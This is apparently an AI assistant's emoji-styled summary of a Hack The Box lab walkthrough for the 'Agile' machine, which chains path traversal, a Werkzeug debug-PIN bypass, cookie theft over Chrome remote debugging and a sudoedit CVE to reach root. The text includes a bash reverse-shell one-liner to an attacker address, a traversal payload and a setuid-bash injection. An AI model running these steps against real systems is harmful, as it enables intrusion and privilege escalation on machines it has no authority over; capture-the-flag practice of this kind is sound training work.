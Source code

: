 Here’s your walkthrough styled exactly how you wanted — plenty of emojis, structured, and reference-rich! 🎯🛠️📚

---

# VENDOR: Agile  
[HTB](HTB.md)

---

**Machine Info:**
- **IP**: `10.10.11.203`
- **OS**: Linux 🐧
- **Difficulty**: [Medium](Medium)
- **Exploits Used**:
  - [HTTP](HTTP) File Read Vulnerability via `/download?fn=...`
  - Flask Debug Mode Code Execution via Werkzeug PIN Bypass
  - Database Credential Extraction 🐍
  - Chrome Remote Debugging Cookie Stealing 🥸
  - [Sudoedit](https://nvd.nist.gov/vuln/detail/CVE-2023-22809) via CVE-2023-22809 to escalate to root 🧨
- **Open Ports**:
  - [SSH](SSH) (22)
  - [HTTP](HTTP) (80)

---

[Tools](Tools)
- `nmap` 🛰️
- `feroxbuster` 🦡
- `curl` 🌐
- `Burp Suite` 🐞
- `sshpass` 🧑‍💻
- `mysql` 🐬
- `Chromium DevTools` 🔧
- `nc` 📞
- `Selenium` 🧪
- `pytest` 🔁
- `sudoedit` ✍️

---

### Commands to Solve Box

#### 🧭 Recon
```bash
nmap -p- --min-rate 10000 10.10.11.203
nmap -p 22,80 -sCV 10.10.11.203
feroxbuster -u http://superpass.htb --dont-extract-links
```

#### 🪝 Initial Access (www-data)
- Exploit `/download?fn=../../../../etc/passwd` to confirm file read vuln.
- Leak Flask Debug PIN via [Werkzeug debug PIN generation](https://book.hacktricks.xyz/pentesting-web/flask-pin-obtain-remote-code-execution).
- Use leaked info to generate correct PIN and gain RCE via Flask console.
- Spawn reverse shell via `os.system('bash -c "bash -i >& /dev/tcp/10.10.14.X/443 0>&1"')`.

#### 📂 Escalation to User corum
- Read `/app/config_prod.json` and connect to DB using `mysql`.
- Extract corum’s password from DB and login via `sshpass`.

```bash
mysql -u superpassuser -p'dbpassword' superpass
```

#### 🧪 Shell as edwards
- Tunnel `localhost:5555` and `localhost:41829` using:
```bash
ssh -L 5555:localhost:5555 -L 41829:localhost:41829 corum@superpass.htb
```
- Access [Chrome Debugger](chrome://inspect) and steal cookies for edwards.
- Reuse cookie to extract password, login via `ssh`.

#### 🚨 Root Access
- Exploit [CVE-2023-22809](https://nvd.nist.gov/vuln/detail/CVE-2023-22809) using `sudoedit` with `EDITOR='vim -- /app/venv/bin/activate'`.
- Inject:
```bash
cp /bin/bash /tmp/0xdf; chmod +s /tmp/0xdf
```
- Wait for cron/root login, then:
```bash
/tmp/0xdf -p
```

---

### ✅ Actions Learned From This Box
- 🧠 Deep understanding of Flask’s debug mode and Werkzeug PIN generation.
- 🐍 How Python virtual environments interact with `bashrc`.
- 🔎 Abuse of Chrome remote debugging via dev test pipelines.
- ⚠️ The power (and danger) of misconfigured `sudoedit` privileges.
- 🧬 Realistic dev-to-prod test integration flaws, great CI/CD misconfig example.
- 🎯 Tunneling techniques for local-only service access.

---

### References 📚
- 📖 [HackTricks: Flask Debug RCE](https://book.hacktricks.xyz/pentesting-web/flask-pin-obtain-remote-code-execution)
- 📖 [CVE-2023-22809 sudoedit Exploit](https://www.qualys.com/2023/01/30/cve-2023-22809/cve-2023-22809.txt)
- 🛠️ [Werkzeug Source for PIN Gen](https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/__init__.py)
- 🧪 [Selenium Chrome Debug Port Abuse](https://security.snyk.io/vuln/SNYK-PYTHON-SELENIUM-3187814)
- 🧠 [0xdf's Full Write-up](https://0xdf.gitlab.io/2023/08/05/htb-agile.html)

---

Let me know when you want the next one prepped like this! 💻🔥